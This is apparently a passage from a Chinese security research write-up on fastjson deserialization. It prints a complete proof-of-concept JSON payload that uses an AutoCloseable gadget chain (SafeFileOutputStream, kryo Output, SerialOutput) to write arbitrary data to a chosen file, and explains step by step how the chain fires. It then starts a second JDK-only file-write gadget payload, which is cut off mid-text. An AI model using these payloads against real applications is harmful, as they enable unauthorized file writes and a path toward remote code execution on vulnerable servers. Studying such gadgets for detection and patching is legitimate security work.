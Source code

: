 poc

```json
{
    'stream':
    {
        '@type':"java.lang.AutoCloseable",
        '@type':'org.eclipse.core.internal.localstore.SafeFileOutputStream',
        'targetPath':'/tmp/dst',
        'tempPath':'/tmp/src'
    },
    'writer':
    {
        '@type':"java.lang.AutoCloseable",
        '@type':'com.esotericsoftware.kryo.io.Output',
        'buffer':'aGFja2VkIGJ5IG0wMWUu',
        'outputStream':
        {
            '$ref':'$.stream'
        },
        'position':15
    },
    'close':
    {
        '@type':"java.lang.AutoCloseable",
        '@type':'com.sleepycat.bind.serial.SerialOutput',
        'out':
        {
            '$ref':'$.writer'
        }
    }
}
```

总体来说是一个循环引用的嵌套

(1) 首先通过`org.eclipse.core.internal.localstore.SafeFileOutputStream`的构造方法创建一个输出流对象，并通过参数去指定目标路径/tmp/dst;
(2) 然后通过`com.esotericsoftware.kryo.io.Output`的无参构造方法创建输出流对象，并通过setter方法将自身的输出流指向SafeFileOutputStream输出流对象，且通过setter方法往自身缓冲区填充要写入的数据；
(3) 最后，再通过`com.sleepycat.bind.serial.SerialOutput`的构造方法创建输出流对象，并通过参数将输出流指向(2)创建的Output对象；同时在`com.sleepycat.bind.serial.SerialOutput`构造方法调用的过程中，会调用`com.esotericsoftware.kryo.io.Output#flush()`方法，将buffer缓冲区的数据写入到目标文件/tmp/dst。

##### gadget3 写文件(jdk)

这是 @rmb122发现的一个仅依赖于JDK的写文件gadget，尽管如此，前面也提到了，成功与否取决于目标程序的JDK是否带调试信息。

```json
{
    '@type':"java.lang.AutoCloseable",
    '@type':'sun.rmi.server.MarshalOutputStream',
    'out':
    {
        '@type':'java.util.zip.InflaterOutputStream',
        'out':
        {
           '@type':'java.io.FileOutputStream',
           'file':'C:/temp/test.txt',
           'append':false
        },
        'infl':
        {
            '@type':'java.util.zip.Inflater'
            'input':
            {
```